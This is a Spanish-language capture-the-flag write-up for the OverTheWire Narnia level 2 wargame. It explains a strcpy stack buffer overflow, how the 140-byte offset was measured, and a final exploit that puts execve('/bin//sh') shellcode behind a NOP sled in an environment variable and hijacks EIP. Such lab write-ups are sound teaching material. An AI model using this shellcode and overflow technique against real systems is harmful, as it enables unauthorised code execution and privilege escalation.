

# `> [NARNIA 2]`

```bash
$ ssh narnia2@narnia.labs.overthewire.org -p 2226

$ echo $TARGET
> un buffer estático · argv sin freno · control directo del puntero de retorno

$ echo $VECTOR
> stack buffer overflow · NOP sled · shellcode en variable de entorno · EIP hijack
```

---

## `> [RECON]`

```bash
$ cat /narnia/narnia2.c
```

```c
char buf[128];

if(argc == 1){
    printf("Usage: %s <string>\n", argv[0]);
    exit(1);
}

strcpy(buf, argv[1]);
printf("%s\n", buf);
```

128 bytes. `strcpy`. Sin límite.

En Narnia 1 el vector era el entorno.
Aquí es el argumento.
El resultado tampoco es pisar una variable vecina.
Es llegar al Saved EIP — el puntero que decide a dónde vuelve la función al terminar.

Eso no es lo mismo.

---

## `> [HYPOTHESIS]`

```diff
+ buf mide 128 bytes. el EIP guardado vive más allá.
+ GCC introduce padding por alineación — el offset real no es 128.
+ controlar EIP = controlar a dónde salta la CPU en ret.
+ PAYLOAD en variable de entorno = dirección más estable que en argv.
+ NOP sled: margen de error cuando la dirección no es exacta.
- asumí que el offset era exactamente 128.
- metí la shellcode en argv. el entorno desplazó la pila. dirección incorrecta.
- intenté adivinar sin medir. el salto cayó al vacío.
```

---

## `> [ATTEMPTS]`

<details>
<summary><code>// 3l 0ff53t n0 53 4d1v1n4. 53 m1d3.</code></summary>

```bash
# — intento 1
$ /narnia/narnia2 $(python3 -c 'print("A"*128)')
# termina normal. el buffer absorbió todo.
# 128 exactos no alcanzan el EIP.

# — intento 2
$ /narnia/narnia2 $(python3 -c 'print("A"*200)')
# Segmentation fault. EIP = 0x41414141.
# el crash está. pero esto no es control. ya aprendí eso en narnia1.

# — intento 3
gdb$ run $(python3 -c 'from pwn import *; print(cyclic(200).decode())')
gdb$ info registers eip
# EIP tiene un fragmento del patrón cíclico.
# cyclic_find() → 140.
# 128 (buf) + 8 (padding GCC) + 4 (EBP) = 140 bytes hasta EIP.
# el compilador agrega lo que quiere. nunca confíes en el tamaño declarado.

# — intento 4
$ /narnia/narnia2 $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*100 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + b"A"*16 + b"\x00\xd8\xff\xff")')
# Segmentation fault. dirección incorrecta.
# lo que GDB muestra adentro no es lo que hay afuera.
# el nombre del binario y el entorno desplazan la pila. siempre.

# — intento 5 — ahí.
$ export PAYLOAD=$(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*200 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")')
# programa auxiliar → dirección real de PAYLOAD en el proceso: 0xffffd9a0
$ /narnia/narnia2 $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*140 + b"\xa0\xd9\xff\xff")')
```

```txt
offset: 140.
dirección: 0xffffd9a0.
shell: narnia3.
```

</details>

---

## `> [BREAK]`

```
direcciones bajas ↓

  [       buf (128 bytes)       ] [ padding (8) ] [ EBP (4) ] [ Saved EIP ]
   0 ..........................127  128.......135   136....139   140....143

direcciones altas ↑
```

Después:

```
  [ A * 140 ]  [ \xa0\xd9\xff\xff ]
                ↑ nuevo EIP ↑
                apunta al NOP sled
```

La CPU llega a `ret`. Extrae los 4 bytes. Salta.
No pregunta. No verifica. Solo ejecuta lo que encuentra en esa dirección.

El NOP sled la desliza hasta la shellcode.
`execve("/bin//sh")`. El proceso corre como narnia3.

Funciona porque la pila aquí ejecuta código.
ASLR deshabilitado. NX deshabilitado.
Condiciones de 1996.

En 1997, **Solar Designer** publicó un parche para Linux que marcaba la pila como no ejecutable.
Tu shellcode llegaría, pero la CPU se negaría a ejecutarla.

El mismo año publicó cómo saltarse su propio parche.

> *→ [`/lore/solar_designer.md`](../lore/solar_designer.md)*

---

## `> [EXPLOIT]`

```bash
export PAYLOAD=$(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*200 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")')
/narnia/narnia2 $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*140 + b"\xa0\xd9\xff\xff")')
```

```
\x90*200              → NOP sled. 200 instrucciones vacías.
                         no necesito precisión. necesito margen.
\x31\xc0...\xcd\x80  → execve("/bin//sh"). 24 bytes.
b"A"*140              → 128 + 8 + 4. medido, no adivinado.
b"\xa0\xd9\xff\xff"  → little endian. la CPU lee al revés.
                         eso ya lo sabés.
```

---

## `> [FLAG]`

```
[REDACTED]
```

> n0 m3 l4 d1g4s. n0 m3 1nt3r3s4.
> 3l pr3m10 n0 3s un str1ng d3 t3xt0.

---

## `> [REFLECTION]`

```diff
+ GCC agrega padding. el offset nunca es exactamente el tamaño del buffer.
+ GDB desplaza la pila. lo que ves adentro no es lo que hay afuera.
+ shellcode en entorno > shellcode en argv. dirección más estable.
+ NOP sled = geometría. no es trampa. es margen de error calculado.
- 128 = offset → falso. un byte de desfase y el salto cae al vacío.
- adivinar sin medir → sesión rota. tiempo perdido.
```

---

## `> echo $CHALLENGE`

Esto funcionó porque nadie cerró la ventana.
La pila ejecuta. No hay ASLR. No hay NX.

Solar Designer cerró esa ventana en 1997.
Y el mismo año publicó cómo entrar por otra.

La pregunta no es cómo explotar esto sin protecciones.
La pregunta es: **¿cómo lo harías si la pila no ejecutara?**

Busca **ret-into-libc**.
`system()` ya existe en memoria cuando el programa arranca.
`"/bin/sh"` también.
No necesitás inyectar nada.

El que lo entienda va a saber por qué
cerrar una ventana no es lo mismo que asegurar la casa.

La cadena de confianza no tiene fondo. El que no la ve es porque nunca la buscó.

---

```
█████████████████████████████████████████████
█                                           █
█   3l s4lt0 n0 n3c3s1t4 c0d1g0 pr0p10.   █
█         n3c3s1t4 d1r3cc10n.              █
█                                           █
█████████████████████████████████████████████
```

> *→ [youtube.com/@t474-r0b07](https://youtube.com/@t474-r0b07)*
> *→ siguiente: [narnia3](../narnia3/)*

---
<!-- 0x90 0x90 0x90 // 3l s1l3nc10 3s 3l c4m1n0. -->
